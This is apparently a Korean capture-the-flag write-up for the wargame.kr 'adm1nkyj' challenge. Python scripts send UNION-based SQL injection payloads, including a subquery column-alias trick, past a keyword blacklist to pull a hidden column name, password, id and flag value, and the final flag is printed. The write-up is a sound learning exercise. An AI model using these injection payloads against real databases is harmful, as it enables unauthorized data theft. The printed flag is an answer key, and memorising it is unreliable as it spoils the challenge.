


# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**



# **Write-Up**

바로 소스코드가 열린다.



information, schema, user를 제외하고는 아무 필터링도 없다.

```php
if(preg_match("/information|schema|user/i", $id) || substr_count($id,"(") > 1) exit("no hack");
if(preg_match("/information|schema|user/i", $pw) || substr_count($pw,"(") > 1) exit("no hack");
```

대신 Loose Comparisons이 아니고, 컬럼 명도 다 변수화되어 있다.

```php
$query = mysql_fetch_array(mysql_query("SELECT * FROM findflag_2 WHERE $id_column='{$id}' and $pw_column='{$pw}';"));
if($query[$id_column])
{
    if(isset($pw) && isset($flags) && $pw === $tmp_pw && $flags === $tmp_flag)
```

우선, 컬럼 수를 알아보면 5개임을 알 수 있고, 두번째 컬럼이 출력되는 점을 알 수 있다.

```python
import urllib
import urllib.request

id          = urllib.parse.quote('\' union select 1,2,3,4,5#')
pw          = urllib.parse.quote('')
flag        = urllib.parse.quote('')
url         = 'http://wargame.kr:8080/adm1nkyj/?id='+id+'&pw='+pw+'&flag='+flag
headers     = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}
request     = urllib.request.Request(url, headers = headers)
response    = urllib.request.urlopen(request)
data        = response.read().decode()
print(data)

[Output]
Hello 2<hr>
```

우선 pw_column명이 뭔지 알 수 있다. $id_column='' union select 1,and $pw_column=',3,4,5#'로 쿼리가 들어가기 때문에 pw_column이 어떤 값인지 알 수 있다.

```python
... 생략 ...
id          = urllib.parse.quote('\' union select 1,')
pw          = urllib.parse.quote(',3,4,5#')
... 생략 ...
pw_column   = data[data.find('and ')+len('and '):data.find('=<hr')]
print('pw_column\t: '+pw_column)

[Output]
pw_column       : xPw4coaa1sslfe
```

pw_column명을 알았으니, get_pw함수의 반환 값(tmp_pw)을 알 수 있다.

```python
id          = urllib.parse.quote('\' union select 1, (select {} from findflag_2), 3, 4, 5#'.format(pw_column))
pw          = urllib.parse.quote('')
... 생략 ...
tmp_pw      = data[data.find('Hello ')+len('Hello '):data.find('<hr')]
print('tmp_pw\t\t: '+tmp_pw)

[Output]
tmp_pw          : !@SA#$!
```

id 값은 ' or 1=1#로 뽑아본다.

```python
id          = urllib.parse.quote('\' or 1=1#')
... 생략 ...
query_id_colum = data[data.find('Hello ')+len('Hello '):data.find('<hr')]
print('query_id_colum\t: '+query_id_colum)

[Output]
query_id_colum  : adm1ngnngn
```

이제 tmp_flag를 뽑는다.

1. select 1 as flag,2,3,4,5의 결과는 다음과 같다.

    |flag|2|3|4|5|
    |:---:|:---:|:---:|:---:|:---:|
    |1|2|3|4|5|

2. select 1 as flag,2,3,4,5 union select * from findflag_2의 결과는 다음과 같다.

    |flag|2|3|4|5|
    |:---:|:---:|:---:|:---:|:---:|
    |1|2|3|4|5|
    |어떤 값 | 어떤 값 | 어떤 값 | 어떤 값 | 어떤 값|
    |어떤 값 | 어떤 값 | 어떤 값 | 어떤 값 | 어떤 값|
    |어떤 값 | 어떤 값 | 어떤 값 | 어떤 값 | 어떤 값|
    * 어떤 값 : select * from findflag_2의 결과

3. select 1 as flag,2,3,4,5 union select * from findflag_2 limit 1,1의 결과는 다음과 같다.

    |flag|2|3|4|5|
    |:---:|:---:|:---:|:---:|:---:|
    |어떤 값 | 어떤 값 | 어떤 값 | 어떤 값 | 어떤 값|
    * 어떤 값 : select * from findflag_2의 결과

4. (select 1 as flag,2,3,4,5 union select * from findflag_2 limit 1,1) as x의 결과를 x라는 테이블로 칭한다.

5. union select 1,flag,3,4,5 from (select 1,2,3,4 as flag,5 union select * from findflag_2 limit 1,1) as x의 결과는 x테이블의 flag컬럼에 해당하는 값을 가져온다.

    |1|flag|3|4|5|
    |:---:|:---:|:---:|:---:|:---:|
    |1| 어떤 값 |3|4|5|
    * 어떤 값 : select * from findflag_2의 결과

subquery에서 'as flag'가 붙은 컬럼을 1~5번까지 하다보면 위에서 tm_pw, id 등을 가져온 값이 보인다. 이때, 4번 컬럼이 flag로 유추된다.

```python
id          = urllib.parse.quote('\' union select 1,flag,3,4,5 from (select 1,2,3,4 as flag,5 union select * from findflag_2 limit 1,1) as x#')
... 생략 ...
tmp_flag    = data[data.find('Hello ')+len('Hello '):data.find('<hr')]
print('tmp_flag\t: '+tmp_flag)

[Output]
tmp_flag        : rMQdeBKDivGonFtC2k1aNzXRLW5h03IuyT4fAw9EsJZbYH7pc8PmSlVq6xOUjg
```

id, tmp_pw, tmp_flag를 알았으니 FLAG를 획득한다.

```python
id          = urllib.parse.quote(query_id_colum)
pw          = urllib.parse.quote(tmp_pw)
flag        = urllib.parse.quote(tmp_flag)
... 생략 ...
print('data\t\t: '+data)

[Output]
data            : good job!!<br />FLAG : <b>6f98171cb0edad29be30d6a287db08f1ad9421fc</b><hr>
```


# **FLAG**

**6f98171cb0edad29be30d6a287db08f1ad9421fc**